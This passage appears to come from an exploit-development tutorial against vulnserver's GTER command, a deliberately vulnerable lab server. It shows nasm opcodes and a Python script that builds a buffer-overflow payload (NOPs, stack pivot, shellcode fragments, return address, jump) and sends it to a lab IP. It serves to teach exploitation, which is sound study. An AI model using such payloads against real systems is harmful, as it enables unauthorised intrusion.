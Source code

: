 Lets generate opcodes for that,

```c
nasm > xor eax,eax
00000000  31C0              xor eax,eax
nasm > push eax
00000000  50                push eax
```

Adding it into our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat flag-value.py     
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

payload=b""
payload+=b"\x90"*20
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 flag-value.py     
```

After running this, we are able to set ```EAX``` as 0 and push it to the stack

<div align="center">